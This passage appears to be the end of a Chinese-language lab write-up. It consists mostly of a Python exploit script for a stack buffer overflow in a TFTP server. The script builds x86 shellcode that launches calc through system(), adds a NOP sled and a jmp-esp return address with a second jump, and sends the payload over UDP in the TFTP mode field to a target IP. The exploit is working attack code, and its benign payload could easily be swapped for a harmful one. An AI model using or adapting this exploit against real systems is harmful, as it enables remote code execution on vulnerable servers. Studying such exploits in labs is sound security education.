    # eip=0x41357041 A5pA Ap5A 466 esp=41397041 A9pA Ap9A 478 70-77
    print(long_str.index("Ap5A"), long_str.index("Ap9A"))
    filename = f"{time.time().__str__()[-1]}".encode()
    filename_end = b"\x00"
    shellcode = (
        b"\x33\xc0"  # xor eax,eax
        b"\x50"  # push eax
        b"\x68\x63\x61\x6C\x63"  # push 0x636c6163 ("calc")
        b"\x8B\xDC"  # mov ebx, esp
        b"\x53"  # push ebx
        b"\xB8\xc7\x93\xbf\x77"  # mov eax,  (system)
        b"\xFF\xD0"  # call eax

        b"\x33\xDB"  # xor ebx, ebx
        b"\x53"  # push ebx
        b"\xB8\xFA\xCA\x81\x7C"  # mov eax, 0x7c81cafa (ExitProcess)
        b"\xFF\xD0"  # call eax
    )
    second_jmp = (
        b"\x83\xEC\x64"
        b"\xFF\xE4"
    )
    prefix_padding = 400
    # 低地址<- 0x90...shellcode...0x90..jmp_esp..0x90..second_jmp -> 高地址
    # payload = b"\x90" * prefix_padding + shellcode + b"\x90"*(465-len(shellcode) - prefix_padding) + b"\x12\x45\xfa\x7f" + b"\x90"*8 + second_jmp
    payload = b"\x90" * prefix_padding + shellcode + b"\x90" * (
                465 - len(shellcode) - prefix_padding) + b"\x12\x45\xfa\x7f" + b"\x90" * 8 + second_jmp
    print("payload len:", len(payload))
    mode = "netascii".encode() + payload
    mode_end = b"\x00"

    header = op + filename + filename_end + mode + mode_end

    print("data len:", len(header))

    # 创建 UDP Socket
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    client_socket.settimeout(5)  # 设置超时时间

    send_udp_large(client_socket, header, TARGET_IP, SERVER_PORT, chunk_size=600)

if __name__ == "__main__":

    # 这里可以弹出计算器，但是shellcode过长有问题
    # send_long_str()
    # make_payload()

    make_long_payload()


```

 执行效果如下



至此，三个实验演示完毕。